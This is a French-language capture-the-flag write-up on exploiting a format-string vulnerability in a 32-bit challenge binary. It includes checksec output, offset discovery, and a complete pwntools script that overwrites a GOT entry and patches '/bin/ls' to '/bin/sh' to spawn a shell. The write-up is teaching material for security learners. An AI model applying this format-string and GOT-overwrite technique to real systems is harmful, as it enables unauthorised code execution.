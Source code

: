 # Chiffrement de Beaufort -  HSR 2024

## Binary Analysis
Pour analyser le binaire, on va commencer par l&#39;ouvrir avec un décompilo, comme **Binja**. Le binaire n&#39;étant pas strippé, on peut s&#39;aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d&#39;intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d&#39;abord, la fonction *main()* va lire l&#39;entrée standard à 2 reprises, attendant de l&#39;utilisateur qu&#39;il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l&#39;indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu&#39;on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu&#39;on lui a donné.
Et c&#39;est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n&#39;a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l&#39;ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l&#39;environnement dans lequel run le binaire, donc c&#39;est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l&#39;abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d&#39;y accéder en écriture. On peut donc envisager d&#39;overwrite certaines entrées de la GOT afin d&#39;obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system(&#34;/bin/ls&#34;)*. La string *&#34;/bin/ls&#34;* étant dans la section *.data*, on peut la changer pour *&#34;/bin/sh&#34;* avant de rediriger le flow d&#39;execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *&#34;/bin/ls&#34;* avec *&#34;/bin/sh&#34;*
3) Overwrite l&#39;entrée de *exit()* dans la **GOT** avec l&#39;adresse de *backup()*

### Input offset
Pour trouver l&#39;offset, tout ce qu&#39;on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *&#34;aaaaaaa...&#34;* comme clé.
![Malloc from Top Chunk](/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l&#39;exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l&#39;offset de notre input ainsi qu&#39;un dictionnaire des adresses et des valeurs qu&#39;on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L&#39;adresse de *&#34;/bin/ls&#34;* est *0x0804c024*. On va donc écrire *&#34;sh&#34;* à *0x0804c029*, ce qui nous donnera *&#34;/bin/sh&#34;*.
Enfin on va réécrire l&#39;entrée de *exit()* dans la **GOT** par l&#39;adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got[&#39;exit&#39;]: elfexe.sym[&#39;backdoor&#39;]}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF(&#39;./beaufort.bin&#39;)

def start(argv=[], *a, **kw): 
	&#39;&#39;&#39;Start the exploit against the target.&#39;&#39;&#39; 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = &#39;10.22.148.11&#39;
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] &#43; argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload&#43;b&#39;_&#39;*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got[&#39;exit&#39;]: elfexe.sym[&#39;backdoor&#39;]} 

payload = b&#34;A&#34;*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```


---

> Author:   
> URL: http://my.littlepwney.fr/writeups/hacksecureims/chiffrement_de_beaufort/  

